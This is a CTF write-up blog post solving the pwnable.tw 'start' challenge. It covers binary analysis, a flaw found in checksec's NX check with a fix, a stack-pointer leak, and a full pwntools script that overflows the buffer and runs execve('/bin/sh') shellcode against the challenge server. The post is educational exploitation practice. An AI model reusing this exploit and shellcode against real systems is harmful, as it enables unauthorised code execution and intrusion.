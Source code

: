 Title: Pwnable.tw start
Date: 2018-8-1 10:02
Modified: 2018-8-1 10:02
Category: ctf
Tags: ctf, pwnable, binary exploitation, shellcode
Slug: pwnable_tw_start
Authors: F3real
Summary: How to solve pwnable.tw start challenge

This is another binary exploitation challenge, this time from pwnable.tw.

>    Just a start. nc chall.pwnable.tw 10000 
[start](https://pwnable.tw/static/chall/start)

Let’s inspect binary:

    root@kali:~/ctf/pwnable.tw_start# file start
    start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped

Check for security measures using **checksec**:

![Checksec result]({static}/images/2018_9_1_start3.png){: .img-fluid .centerimage}

And let’s run decompiler:

![Decompilation result]({static}/images/2018_9_1_start1.png){: .img-fluid .centerimage}

We see that binary is very simple, it makes two Linux syscalls, first write (`0x04`) and then it takes user input using `read` (Ox03). Type of call depends on the value in `EAX`, if you want more information about parameters for syscalls you can take a look at [https://syscalls.kernelgrok.com/](https://syscalls.kernelgrok.com/).

Now, we can run binary :

    root@kali:~/ctf/pwnable.tw_start# ./start
    Let's start the CTF:test
    root@kali:~/ctf/pwnable.tw_start#

We can use **gdb-peda** as we did in the previous post to detect offset of `EIP`.

    gdb-peda$ pattern search
    Registers contain pattern buffer:
    EIP+0 found at offset: 20
    Registers point to pattern buffer:
    [ECX] --> offset 0 - size ~631
    [ESP] --> offset 24 - size ~697
    Pattern buffer found at:
    0xffffd304 : offset    0 - size   40 ($sp + -0x18 [-6 dwords])
    Reference to pattern buffer not found in memory

We see that the offset of `EIP` is 20. Since binary is very small there is only one `ret;` instruction so it is probably not exploitable using ROP. Another problem is that we have **NX** bit set which means we also can’t use shellcode. At this point I was stuck. Challenge looked way harder then the first challenge in series should be, so I decided to inspect binary a bit more. Let’s run `readelf`:

    root@kali:~/ctf/pwnable.tw_start# readelf -l ./start

    Elf file type is EXEC (Executable file)
    Entry point 0x8048060
    There is 1 program header, starting at offset 52

    Program Headers:
      Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg 
      LOAD           0x000000 0x08048000 0x08048000 0x000a3 0x000a3 R E 

    Section to Segment mapping:
      Segment Sections...
       00     .text

It is interesting to see that there is no `GNU_STACK` header. And if we look at how **checksec** does **NX** bit check, we see:

~~~bash
  # check for NX support
  $debug && echo -e "\n***function filecheck->nx"
  if $readelf -W -l "$1" 2>/dev/null | grep 'GNU_STACK' | grep -q 'RWE'; then
    echo_message '\033[31mNX disabled\033[m   ' 'NX disabled,' ' nx="no"' '"nx":"no",'
  else
    echo_message '\033[32mNX enabled \033[m   ' 'NX enabled,' ' nx="yes"' '"nx":"yes",'
fi
~~~

Since it greps for **GNU_STACK** and checks for **RWE** permission on the result, even in the case that no **GNU_STACK** header is defined in binary, it will report that **NX** is enabled. So in the end it seems that we should try shellcode. Let’s just quickly fix **checksec**:

~~~bash
  # check for NX support
  $debug && echo -e "\n***function filecheck->nx"
  if $readelf -W -l "$1" 2>/dev/null | grep -q 'GNU_STACK'; then
    if $readelf -W -l "$1" 2>/dev/null | grep 'GNU_STACK' | grep -q 'RWE'; then
      echo_message '\033[31mNX disabled\033[m   ' 'NX disabled,' ' nx="no"' '"nx":"no",'
    else
      echo_message '\033[32mNX enabled \033[m   ' 'NX enabled,' ' nx="yes"' '"nx":"yes",'
    fi
  else
    echo_message '\033[31mNX disabled\033[m   ' 'NX disabled,' ' nx="no"' '"nx":"no",'
fi
~~~

First, we need to find a stack address so we can point `EIP` to the right place. Fortunately for us, one of the first instructions is `push esp;` which saves stack pointer to the stack. If we look at the flow of program we see that:

1. `mov ecx, esp;` will make `write` syscall read from the current stack address.

2. before `retn;` we have `add esp, 14h;` which removes all of that data pushed on stack after stack pointer (5 `push` instructions setting strings on the stack) making `ESP` point to the saved stack pointer.

So if we trigger write again it will read saved stack pointer address. To do that we can use following **ROP** gadget:

    0x08048087:mov ecx, esp; mov dl, 0x14; mov bl,1; mov al, 4;int 0x80;

So first payload we use is going to be:

    'A'* 20 + p32(0x08048087)

After our first input, the program will give us a stack pointer address and trigger the next `read` syscall (since first `ret;` instruction, if we look at the original assembly, is after `read`). This time we are going to put shellcode on the stack and point `EIP` to leaked stack pointer address. Let’s use simple `execve` syscall:

    shellcode = asm('\n'.join([
        'push %d' % u32('/sh\0'),
        'push %d' % u32('/bin'),
        'xor edx, edx',
        'xor ecx, ecx',
        'mov ebx, esp',
        'mov eax, 0xb',
        'int 0x80',
    ]))

    payload = "A"*20  + p32(esp + 20) + shellcode

And we get a shell :D

![Shell]({static}/images/2018_9_1_start2.png){: .img-fluid .centerimage}

We can combine all of this in one **pwntool** script for simplicity.

~~~python
from pwn import *

def leak_esp(r):
	address_1 = p32(0x08048087)             # mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; 
	payload = 'A'*20 + address_1
	print r.recvuntil('CTF:')
	r.send(payload)
	esp = u32(r.recv()[:4])
	print "Address of ESP: ", hex(esp)
	return esp

shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

if __name__ == "__main__":
    context.arch = 'i386'
    r = remote('chall.pwnable.tw', 10000)
    #gdb.attach(r)
    esp = leak_esp(r)
    payload = "A"*20  + p32(esp + 20) + shellcode 
    r.send(payload)
r.interactive()
~~~
